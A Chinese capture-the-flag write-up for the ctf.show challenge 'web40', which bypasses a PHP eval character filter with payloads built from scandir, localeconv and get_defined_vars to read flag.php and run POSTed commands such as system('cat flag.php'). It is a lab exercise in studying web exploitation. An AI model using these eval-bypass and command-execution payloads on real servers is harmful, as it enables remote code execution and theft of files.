




# web40

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

仙之人兮列如麻

但是，但是，这里的括号是中文括号，那么还是有希望的

可以尝试构造文件读取

```plaintext
pos(localeconv()) => .
scandir(pos(localeconv())) => scandir(.)
```

变成

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=print_r(scandir(pos(localeconv())));

res: Array ([0] => . [1] => .. [2] => flag.php [3] => index.php )
```

然后要取 `flag.php` 的话，可以 `array_reverse` 之后用 `next` 取第二个

```plaintext
array_reverse(scandir(pos(localeconv()))) => Array ( [0] => index.php [1] => flag.php [2] => .. [3] => . ) 
next(array_reverse(scandir(pos(localeconv())))) => flag.php
```

成功构造出`flag.php`文件名之后，开始读取

```plaintext
show_source(next(array_reverse(scandir(pos(localeconv()))))) => show_source("flag.php")
```

即 `https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`



或者换一个方式，可以使用`get_defined_vars`函数，来替代php伪协议

```plaintext
get_defined_vars() => Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); ) [_POST] => Array ( ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars()); ) 
```

然后POST一个表达式 `command=system("whoami");`

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=print_r(get_defined_vars());

POST: command=system("whoami");
```



使用`array_pop`对array进行加工

```plaintext
array_pop(next(get_defined_vars())) => array
```



然后取值

```plaintext
array_pop(next(get_defined_vars())) => system("whoami");
```

即可执行命令

```plaintext
https://71b4b393-9319-4a4e-8a17-432b9fbeba88.challenge.ctf.show/?c=eval(array_pop(next(get_defined_vars())));

POST: command=system("cat flag.php");
```


